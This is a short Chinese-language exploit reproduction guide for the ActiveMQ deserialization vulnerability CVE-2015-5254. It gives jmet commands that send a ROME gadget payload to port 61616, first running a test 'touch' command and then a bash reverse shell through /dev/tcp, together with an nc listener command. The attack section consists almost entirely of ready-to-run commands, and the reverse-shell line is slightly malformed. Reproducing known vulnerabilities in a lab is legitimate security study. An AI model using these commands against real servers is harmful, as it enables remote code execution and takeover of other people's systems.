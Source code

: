 # [ActiveMQ反序列化漏洞（CVE-2015-5254）复现](https://www.cnblogs.com/backlion/p/9970516.html)

[CVE-2015-5254](http://www.manongjc.com/detail/9-xzaxntkqsbkwqzd.html)

## 漏洞复现

 1. 漏洞利用过程如下：

2. 构造（可以使用ysoserial）可执行命令的序列化对象

3. 作为一个消息，发送给目标61616端口

4. 访问的Web管理页面，读取消息，触发漏洞


## 2.使用jmet进行漏洞利用:

使用jmet执行命令：
```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/sucess" -Yp ROME   [目标IP]  61616
```

然后访问
```
http://**your-ip**:8161/admin/browse.jsp?JMSDestination=event

```
看到这个队列中所有消息：

![](img/1.png)

说明漏洞利用成功

## 漏洞利用：

反弹shell:
```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -i >& /dev/tcp/目标IP/12340>&1" -Yp ROME [目标IP]  61616
```


## 远程主机监听1234端口：
```
nc  -lvvp 1234
```


